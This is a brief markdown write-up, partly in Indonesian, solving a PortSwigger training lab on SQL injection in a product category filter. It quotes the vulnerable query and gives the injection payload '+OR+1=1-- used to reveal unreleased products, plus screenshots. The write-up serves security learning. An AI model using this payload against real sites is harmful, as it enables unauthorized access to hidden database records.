 # - Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
 This lab contains a SQL injection vulnerability in the product category filter. When the user selects a category, the application carries out a SQL query like the following:
```sql
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```
To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products. 

# - Link
https://portswigger.net/web-security/sql-injection/lab-retrieve-hidden-data

# - Cara

## Step
1. Intercept link kategori
2. Masukkan "'+OR+1=1--" pada kategori

## Gambar
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_09_40_02" src="https://github.com/user-attachments/assets/5260beb6-6c32-4633-84d9-f9b3bc5a0744" />
<img width="2304" height="1276" alt="VirtualBox_kali-linux-2024 4-virtualbox-amd64_17_09_2025_09_40_44" src="https://github.com/user-attachments/assets/43dd44d6-2476-43c7-9f26-77b014d677f7" />

## Berhasil


